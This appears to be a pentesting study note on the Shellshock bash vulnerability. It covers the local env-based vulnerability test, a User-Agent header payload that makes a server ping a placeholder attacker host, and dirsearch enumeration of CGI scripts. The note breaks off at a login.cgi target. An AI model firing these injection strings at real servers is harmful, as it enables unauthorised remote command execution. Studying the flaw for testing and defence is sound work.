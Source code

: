 - its from september 2014
- discovered in unix bash shell, and affected CGI programs on web servers;
- openssh, dhcp clients, and several other attack vectors, e.g. Qmail servers etc
- resulted in several CVEs being assigned


### determine if the system is vulnerable
- from a local system perspective:

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

// When executed in a vulnerable bash shell, the string essentially executes an environment variable called **x**.
// **x** in turn runs the **echo vulnerable** command, which is outside of the environment variable function
// i.e., outside of the "() { :;};" part of the string

- This was not intended as part of the design of how bash should handle environment variables.
- On a patched system, the correct output of the above string would simply be **this is a test**

### primary attack vectors
- one of the primary attack vector that was seen in the wild following the disclosure of shellshock was the modification of User-Agent strings to include Shellshock payloads intended to run commands on the remote server.

```
User-Agent: () { :;}; ping -c 5 -p unique_string attacker.machine
```

> if the attacker system receives the unique payload string, then this serves as confirmation that the system ran the ping command.



dirsearch - https://github.com/maurosoria/dirsearch
- Is similar to some other tools you may be familiar with such as **dirb** or **dirbuster** and is used to execute dictionary-type attacks against web servers in search For interesting files, directories, etc.

- In order to find some CGI programs on a web server, we are going to utilize:
// -e =  extensions 
// -r = recursive

```
./dirsearch.py -u http://<target ip>/ -e cgi -r
```

discovered:
// cgi-bin directory
// login.cgi file
// we can access the login.cgi


open the file in the browser
```
<target ip>/cgi-bin/login.cgi
```

